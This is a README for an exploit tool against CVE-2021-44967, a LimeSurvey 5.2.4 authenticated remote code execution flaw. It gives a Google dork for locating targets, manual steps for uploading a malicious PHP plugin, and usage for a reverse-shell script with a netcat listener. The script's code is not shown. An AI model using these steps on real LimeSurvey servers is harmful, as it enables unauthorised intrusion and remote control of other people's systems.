

# CVE-2021-44967

```
# Exploit Title: LimeSurvey 5.2.4 - Authenticated Remote Code Execution (RCE)
# Google Dork: inurl:limesurvey/index.php/admin/authentication/sa/login
# Date: 05/12/2021
# Discovered by: Y1LD1R1M
# Exploit Author: D3Ext
# Vendor Homepage: https://www.limesurvey.org/
# Software Link: https://download.limesurvey.org/latest-stable-release/limesurvey5.2.4+211129.zip
# Version: 5.2.x
# Tested on: Kali Linux 2025
# CVE: CVE-2021-44967
```

## Explanation

A Remote Code Execution (RCE) vulnerabilty exists in LimeSurvey 5.2.4 via the upload and install plugins function, which could let a remote malicious user upload an arbitrary PHP code file.

This are the steps to follow in order to exploit this vulnerability manually:

1. Create a ZIP containing the PHP file and the config file
2. Login into LimeSurvey
3. Go to Configuration -> Plugins -> Upload & Install
4. Upload your ZIP file
5. Install it
6. Finally, activate your plugin
7. Then your PHP code should be accessible under /upload/plugins/<plugin_name>/<php_file>

## Usage

```
usage: CVE-2021-44967.py [-h] --url URL --user USER --password PASSWORD --lhost LHOST --lport LPORT [--verbose]

CVE-2021-44967 - LimeSurvey Authenticated RCE

options:
  -h, --help           show this help message and exit
  --url URL            URL of the LimeSurvey web root
  --user USER          username to log in
  --password PASSWORD  password of the username
  --lhost LHOST        local host to receive the reverse shell
  --lport LPORT        local port to receive the reverse shell
  --verbose            enable verbose
```

Start a netcat listener and then execute the exploit like this:

```
python3 --url <URL> --user <username> --password <password> --lhost <local host> --lport <local port>
```

## Demo



## References

```
https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
https://www.exploit-db.com/exploits/50573
https://github.com/p0dalirius/LimeSurvey-webshell-plugin
https://ine.com/blog/cve-2021-44967-limesurvey-rce
https://pentest-tools.com/vulnerabilities-exploits/limesurvey-524-rce-vulnerability_13029
```

## License

This project is under MIT license

Copyright © 2025, *D3Ext*

